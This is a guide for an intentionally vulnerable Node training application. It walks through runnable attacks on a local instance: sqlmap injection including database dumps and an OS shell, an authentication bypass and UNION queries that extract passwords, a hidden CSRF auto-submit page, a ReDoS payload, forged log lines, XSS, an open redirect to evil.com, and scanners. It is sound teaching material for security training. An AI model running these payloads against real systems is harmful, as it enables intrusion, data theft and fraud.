



# Attack Examples Guide

## Table of Contents

- [Introduction](#introduction)
- [Prerequisites](#prerequisites)
- [Attack Directory Structure](#attack-directory-structure)
- [SQL Injection Attacks](#sql-injection-attacks)
- [CSRF Attacks](#csrf-attacks)
- [ReDoS Attacks](#redos-attacks)
- [Log Injection](#log-injection)
- [Manual Exploitation](#manual-exploitation)
- [Using Security Tools](#using-security-tools)

## Introduction

The `attacks/` directory contains ready-to-use scripts demonstrating how to exploit the vulnerabilities in the vulnerable-node application. These examples are intended for educational purposes to help you understand attack techniques and their impact.

> [!WARNING]
> These attack scripts are for educational use only. Never use these techniques against systems without explicit authorization.

## Prerequisites

Before running the attack examples, ensure you have:

- The vulnerable-node application running (see [README](../README.md))
- `curl` installed for HTTP requests
- `sqlmap` installed for SQL injection attacks (optional)
- `netcat` installed for raw HTTP requests

To verify the application is running:

```bash
curl -I http://127.0.0.1:3000/login
```

You should see a `200 OK` response.

## Attack Directory Structure

```
attacks/
├── README.md           # Brief overview
├── csrf/
│   └── csrf.sh         # CSRF attack demonstration
├── evil_regex/
│   └── attack_1.sh     # ReDoS attack demonstration
├── sqli/
│   └── login.sh        # SQL injection with sqlmap
└── log_injection.sh    # Log injection payload
```

## SQL Injection Attacks

### Overview

SQL injection attacks exploit the lack of input sanitization in database queries. The vulnerable-node application has multiple SQL injection points.



### Using sqlmap (Automated)

**Script:** `attacks/sqli/login.sh`

**Content:**

```bash
#!/usr/bin/env bash

sqlmap --batch -u "http://127.0.0.1:3000/login/auth" --data "username=&password="
```

**How to Run:**

```bash
cd attacks/sqli
chmod +x login.sh
./login.sh
```

**What it Does:**

1. Targets the login authentication endpoint
2. Tests `username` and `password` parameters
3. Automatically detects SQL injection vulnerabilities
4. Attempts to enumerate database structure

> [!TIP]
> Add `--dbs` flag to enumerate databases, or `--dump` to extract data.

**Advanced sqlmap Usage:**

```bash
# Enumerate databases
sqlmap --batch -u "http://127.0.0.1:3000/login/auth" \
    --data "username=&password=" --dbs

# Dump users table
sqlmap --batch -u "http://127.0.0.1:3000/login/auth" \
    --data "username=&password=" -D vulnerablenode -T users --dump

# OS shell (if privileges allow)
sqlmap --batch -u "http://127.0.0.1:3000/login/auth" \
    --data "username=&password=" --os-shell
```

### Manual SQL Injection

**Target:** Login form at `/login/auth`

**Authentication Bypass:**

```bash
# Using curl
curl -X POST http://127.0.0.1:3000/login/auth \
    -d "username=admin'--&password=anything" \
    -L -c cookies.txt

# The '--' comments out the rest of the SQL query
# Original: SELECT * FROM users WHERE name = 'admin'--' AND password='anything';
# Effective: SELECT * FROM users WHERE name = 'admin'
```

**Search Injection:**

First, authenticate and get a session cookie:

```bash
# Login normally
curl -X POST http://127.0.0.1:3000/login/auth \
    -d "username=admin&password=admin" \
    -c cookies.txt -L

# Then exploit search with the cookie
curl "http://127.0.0.1:3000/products/search?q=%25'%20UNION%20SELECT%201,name,password,4,'5'%20FROM%20users--" \
    -b cookies.txt
```

## CSRF Attacks

### Overview

Cross-Site Request Forgery exploits the trust a web application has in the user's browser. The `/products/buy` endpoint lacks CSRF protection.



### Using the CSRF Script

**Script:** `attacks/csrf/csrf.sh`

**Content:**

```bash
#!/usr/bin/env bash

# Put here your cookie session value, like:
#COOKIE="Cookie: connect.sid=s%3AM9Ddp0pSbLOrBbgz9V6v2UhZMs1zTbTy.kS5d8QwFWge7FRH7KbveH2QLf6rAYvBft75nU6jgLzQ"
COOKIE=""
TARGET="http://127.0.0.1:3000"

for i in $(seq 10);
do
    curl "$TARGET/products/buy?mail=aa@aa.com&address=aaa&ship_date=10/10/2016&phone=1111111&product_id=2&product_name=product%20name&username=admin&price=1" -H "$COOKIE";
done
```

**How to Run:**

1. Log into the application in your browser
2. Open developer tools and find the `connect.sid` cookie value
3. Update the `COOKIE` variable in the script
4. Run the script:

```bash
cd attacks/csrf
chmod +x csrf.sh
./csrf.sh
```

**What it Does:**

Simulates 10 purchase requests using the victim's session, demonstrating how an attacker could force purchases.

### Creating a CSRF Attack Page

Create an HTML file that auto-submits when viewed:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Win a Prize!</title>
</head>
<body>
    <h1>Congratulations! Click below to claim your prize!</h1>

    <!-- Hidden form that submits to vulnerable endpoint -->
    <form id="csrf-form" action="http://127.0.0.1:3000/products/buy" method="POST" style="display:none">
        <input name="mail" value="attacker@evil.com" />
        <input name="address" value="123 Attacker Street" />
        <input name="ship_date" value="2025-12-25" />
        <input name="phone" value="555-1234" />
        <input name="product_id" value="1" />
        <input name="product_name" value="Expensive Item" />
        <input name="price" value="1€" />
    </form>

    <script>
        // Auto-submit form when page loads
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```

> [!IMPORTANT]
> The victim must be logged into vulnerable-node for this attack to succeed.

## ReDoS Attacks

### Overview

Regular Expression Denial of Service (ReDoS) exploits inefficient regular expressions that cause catastrophic backtracking. The email validation regex in `/products/buy` is vulnerable.



### Using the ReDoS Script

**Script:** `attacks/evil_regex/attack_1.sh`

**Content:**

```bash
#!/usr/bin/env bash

#
# Evil regex: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
# Insert point: /products/buy
# Vulnerable parameter: mail
#

# Put here your cookie session value, like:
#COOKIE="Cookie: connect.sid=s%3AM9Ddp0pSbLOrBbgz9V6v2UhZMs1zTbTy.kS5d8QwFWge7FRH7KbveH2QLf6rAYvBft75nU6jgLzQ"
COOKIE=""
EVIL_REGEX="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!"
TARGET="http://127.0.0.1:3000"

curl "$TARGET/products/buy?mail=$EVIL_REGEX&address=asdfasdf&ship_date=10/10/2016&phone=1111111&product_id=2&product_name=product%20name&username=admin&price=1" -H "$COOKIE"
```

**How to Run:**

1. Set the `COOKIE` variable with a valid session
2. Run the script:

```bash
cd attacks/evil_regex
chmod +x attack_1.sh
./attack_1.sh
```

**What it Does:**

- Sends a malformed email address with many `a` characters followed by `!`
- The regex engine attempts exponential backtracking
- Server becomes unresponsive during processing

**Understanding the Vulnerable Regex:**

```javascript
/^([a-zA-Z0-9])(([\-.]|[_]+)?([a-zA-Z0-9]+))*(@){1}[a-z0-9]+[.]{1}(([a-z]{2,3})|([a-z]{2,3}[.]{1}[a-z]{2,3}))$/
```

The nested groups `(([\-.]|[_]+)?([a-zA-Z0-9]+))*` cause catastrophic backtracking when the input doesn't match.

## Log Injection

### Overview

Log injection allows attackers to forge log entries or inject malicious content into log files by including special characters in input.

### Using the Log Injection Payload

**Script:** `attacks/log_injection.sh`

This script contains a raw HTTP request for use with netcat:

```http
POST /login/auth HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.49.1
Accept: */*
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

username=a
```

**Manual Execution with Forged Logs:**

```bash
# Send login attempt with newline injection
curl -X POST http://127.0.0.1:3000/login/auth \
    -d $'username=admin\n[ERROR] User root logged in successfully\n[INFO] System compromised&password=test'
```

**What it Does:**

The application logs login attempts without sanitization:

```javascript
logger.error("Tried to login attempt from user = " + user);
```

With newline injection, the log file shows:

```
[ERROR] Tried to login attempt from user = admin
[ERROR] User root logged in successfully
[INFO] System compromised
```

> [!NOTE]
> Log injection can be used to hide attack traces or confuse incident responders.

## Manual Exploitation

### XSS via Search

```bash
# Get a session first
curl -X POST http://127.0.0.1:3000/login/auth \
    -d "username=admin&password=admin" \
    -c cookies.txt -L

# Inject XSS payload
# URL-encode: <script>alert('XSS')</script>
curl "http://127.0.0.1:3000/products/search?q=%3Cscript%3Ealert('XSS')%3C/script%3E" \
    -b cookies.txt
```

### Open Redirect

```bash
# Craft a phishing link
echo "Send this link to victim:"
echo "http://127.0.0.1:3000/login?returnurl=http://evil.com/phishing"
```

### Product ID Enumeration

```bash
# Enumerate product IDs
for i in {1..20}; do
    curl -s "http://127.0.0.1:3000/products/detail?id=$i" \
        -b cookies.txt | grep -o '<h4>.*</h4>' || echo "Product $i not found"
done
```

## Using Security Tools

### Burp Suite

1. Configure browser to use Burp proxy
2. Navigate through the application
3. Use the Intruder tool to automate parameter fuzzing
4. Use Repeater to craft specific attack payloads

### OWASP ZAP

```bash
# Active scan (ensure you have permission)
zap-cli quick-scan http://127.0.0.1:3000
```

### Nikto

```bash
nikto -h http://127.0.0.1:3000
```

### Directory Enumeration

```bash
# Using gobuster
gobuster dir -u http://127.0.0.1:3000 -w /usr/share/wordlists/dirb/common.txt
```

## Safety Checklist

Before running any attacks, verify:

- [ ] You are targeting your own instance of vulnerable-node
- [ ] The application is running in an isolated environment
- [ ] You have explicit authorization if testing for others
- [ ] Network traffic is isolated from production systems

> [!CAUTION]
> Unauthorized testing of security vulnerabilities is illegal in most jurisdictions. Always obtain proper authorization before testing.

## Related Documentation

- [Architecture Overview](./ARCHITECTURE.md) - System architecture documentation
- [Vulnerability Details](./VULNERABILITIES.md) - Complete vulnerability reference
- [Contributing Guide](../CONTRIBUTING.md) - How to contribute attack examples
